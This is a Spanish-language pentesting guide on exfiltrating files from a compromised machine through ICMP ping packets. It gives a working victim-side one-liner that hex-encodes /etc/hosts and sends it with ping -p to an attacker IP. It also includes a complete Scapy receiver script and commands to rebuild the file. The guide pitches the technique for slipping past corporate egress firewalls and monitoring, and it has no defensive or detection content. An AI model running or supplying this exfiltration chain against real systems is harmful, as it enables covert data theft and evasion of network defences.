 # **Guía Maestra: Exfiltración de Datos por Túnel ICMP**

La exfiltración de datos a través de ICMP es una técnica de **canal encubierto (covert channel)** que abusa del protocolo `ping` para extraer ficheros de un sistema comprometido. Al disfrazar los datos como tráfico de diagnóstico de red, este método puede eludir firewalls y sistemas de monitorización que no realizan una inspección profunda de los paquetes.

Es un ataque ruidoso y lento, pero su elegancia y efectividad en redes permisivas lo convierten en una técnica esencial en el arsenal de un pentester.

-----

## **1. El Fundamento Teórico: Abuso del Parámetro `-p` de `ping`**

El comando `ping` utiliza el Protocolo de Mensajes de Control de Internet (ICMP) para enviar paquetes "Echo Request". El parámetro `-p` (de **pattern** o patrón) fue diseñado para que los administradores de red pudieran rellenar estos paquetes con datos hexadecimales específicos y así diagnosticar problemas de corrupción de datos en la red.

  * **Función Legítima**: `ping -p ff00ff00 192.168.1.1` envía un paquete relleno con el patrón `ff00ff00`.
  * **Abuso de la Función**: En lugar de un patrón de diagnóstico, podemos usar este espacio para inyectar un pequeño fragmento de un fichero.

**La vulnerabilidad no reside en `ping`, sino en la posibilidad de ejecutar comandos en la máquina víctima. El comando `ping -p` es simplemente el vehículo de transporte.**

-----

## **2. Anatomía del Ataque: Desglose Completo**

El ataque se compone de dos partes: el **emisor** (en la máquina víctima), que trocea el fichero y lo envía paquete a paquete, y el **receptor** (en la máquina del atacante), que escucha, captura y reconstruye el fichero.

### **Fase 1: El Emisor (Máquina Víctima)**

El siguiente comando de una sola línea, ejecutado en la máquina víctima, es el motor de la exfiltración.

```bash
xxd -ps -c 4 /etc/hosts | while read line; do ping -c 1 -p $line 10.10.14.7; done
```

#### **Análisis Detallado del Comando:**

1.  **`xxd -ps -c 4 /etc/hosts`**: El Convertidor.

      * **`xxd`**: Es una herramienta que crea una representación hexadecimal (hexdump) de un fichero.
      * **`-ps`**: Modo "plain". Imprime únicamente los dígitos hexadecimales del contenido del fichero, sin offsets ni representaciones ASCII. Es la materia prima que necesitamos.
      * **`-c 4`**: Columnas de 4 bytes. `xxd` leerá el fichero `/etc/hosts` y generará una salida donde cada línea contiene la representación hexadecimal de 4 bytes del fichero original.

2.  **`| while read line; do ... done`**: La Cadena de Montaje.

      * El pipe `|` envía la salida de `xxd` (el fichero troceado en hexadecimal) a un bucle `while`.
      * `while read line` procesa esta salida línea por línea. En cada iteración, la variable `$line` contendrá un fragmento de 4 bytes del fichero (ej: `3132372e3`).

3.  **`ping -c 1 -p $line 10.10.14.7`**: El Mensajero.

      * **`-c 1`**: Envía un único paquete `ping` y termina. Esto es crucial para enviar cada fragmento en un paquete separado.
      * **`-p $line`**: **Aquí ocurre la magia**. El patrón del paquete ICMP se rellena con el contenido de `$line`, que es nuestro fragmento de fichero.
      * **`10.10.14.7`**: La IP de la máquina del atacante, que debe estar escuchando.

El bucle se repite hasta que el fichero entero ha sido leído, troceado y enviado a través de la red, oculto dentro de paquetes `ping`.

### **Fase 2: El Receptor (Máquina del Atacante)**

El siguiente script en Python, utilizando la librería `scapy`, actúa como el receptor. Su trabajo es capturar el tráfico, filtrar los paquetes ICMP relevantes, extraer los datos y ensamblarlos.

#### **Script Receptor (`attacker_receiver.py`)**

```python
#!/usr/bin/env python3

from scapy.all import *
import signal
import sys

# Manejador para salida limpia con Ctrl+C
def def_handler(sig, frame):
    print("\n\n[*] Saliendo y finalizando captura... [*]\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Función para procesar cada paquete capturado
def data_parser(packet):
    # 1. Filtro: ¿Tiene el paquete una capa ICMP?
    if packet.haslayer(ICMP):
        # 2. Filtro de Precisión: ¿Es un "Echo Request" (tipo 8)?
        # Esto ignora las respuestas de ping y otro tráfico ICMP.
        if packet[ICMP].type == 8:
            # 3. Extracción: El payload de 'ping -p' se añade al final.
            # Extraemos los últimos 4 bytes del payload.
            data = packet[ICMP].load[-4:]
            try:
                # 4. Presentación: Imprimimos los bytes como hexadecimal.
                # 'end'='' evita saltos de línea, 'flush=True' muestra en tiempo real.
                print(data.hex(), end='', flush=True)
            except Exception:
                # Ignorar paquetes que no contengan un payload válido.
                pass

if __name__ == '__main__':
    print("[*] Iniciando sniffer en la interfaz tun0...")
    print("[*] Esperando paquetes ICMP... Presiona Ctrl+C para detener.")
    # 5. Captura: Scapy escucha en la interfaz y pasa cada paquete a data_parser.
    sniff(iface='tun0', prn=data_parser, store=0)

```

  * **`store=0`**: Le dice a Scapy que no almacene los paquetes en memoria, crucial para capturas largas.
  * **Conversión a Hexadecimal**: Se usa `data.hex()` en lugar de `.decode()` porque los datos del fichero pueden no ser texto imprimible, lo que causaría errores. Convertirlo de nuevo a su forma hexadecimal es la forma más robusta de reconstruir el flujo original.

### **Fase 3: La Reconstrucción del Fichero**

Una vez que el emisor ha terminado, la salida del script `attacker_receiver.py` será una larga cadena de texto hexadecimal. Para convertirla de nuevo en el fichero original, usamos el inverso de `xxd`.

1.  **Ejecutar el receptor y redirigir la salida a un fichero:**

    ```bash
    # Ejecuta el script de scapy y guarda la salida hexadecimal
    sudo python3 attacker_receiver.py > exfiltrated_data.hex
    ```

    *(Se necesita `sudo` para que Scapy pueda acceder a la interfaz de red en modo promiscuo).*

2.  **Revertir el hexadecimal a binario:**

    ```bash
    # xxd -r -p lee texto hexadecimal plano y lo convierte a su forma original
    xxd -r -p exfiltrated_data.hex > /ruta/al/fichero_reconstruido.txt
    ```

El fichero `/ruta/al/fichero_reconstruido.txt` será una copia exacta del fichero `/etc/hosts` de la máquina víctima.

-----

## **4. Posicionamiento en el Hacking Lifecycle y Utilidad Práctica**

### **¿Vulnerabilidad, Explotación o Post-Explotación?**

Esta técnica es puramente de **post-explotación**.

  * **No es una vulnerabilidad ni un exploit**: No te proporciona el acceso inicial a un sistema.
  * **Es una acción post-compromiso**: La técnica asume que ya tienes la capacidad de ejecutar comandos en la máquina víctima (es decir, ya la has explotado previamente).

La analogía sería: explotar una vulnerabilidad es como forzar la cerradura para entrar en un edificio. La exfiltración por ICMP es el método que usas para sacar los documentos de dentro, enviándolos por el conducto del aire acondicionado para que nadie se dé cuenta.


### **Utilidad y Casos de Uso Específicos**

Su principal utilidad es **eludir filtros de egress (salida) restrictivos** en redes corporativas. Es la herramienta perfecta cuando te enfrentas a los siguientes escenarios:

  * **Evasión de Firewalls (Caso de Uso Principal) 🛡️**: Imagina un servidor comprometido en una DMZ donde el firewall bloquea todas las conexiones salientes TCP y UDP, excepto a servidores de actualización muy específicos. Sin embargo, los administradores a menudo dejan el protocolo ICMP (ping) permitido hacia cualquier destino para poder realizar diagnósticos de red. Este es el hueco perfecto que aprovecha la técnica.

  * **Sigilo Bajo Ciertas Condiciones 🤫**: Aunque el volumen de `pings` es alto y "ruidoso", el *tipo* de tráfico puede pasar desapercibido. Los sistemas de monitorización básicos están entrenados para buscar shells inversas sobre TCP, balizas de Cobalt Strike o tráfico DNS anómalo. El tráfico ICMP, al ser considerado "normal", puede no activar las mismas alertas. Se esconde a plena vista.

  * **Herramienta de Último Recurso 🧰**: En un sistema extremadamente "limpio" o minimalista (como un contenedor Docker), puede que no tengas herramientas como `curl`, `wget`, `netcat` o `socat` para sacar datos. Sin embargo, `ping` es una de las utilidades más fundamentales y es prácticamente seguro que estará presente en cualquier sistema operativo.

  * **Entornos de CTF y Exámenes 🚩**: Es una técnica clásica y muy popular en desafíos de Capture The Flag (CTF) y en certificaciones de seguridad, donde los evaluadores prueban precisamente la habilidad del candidato para sacar información de una máquina con la conectividad de red muy limitada.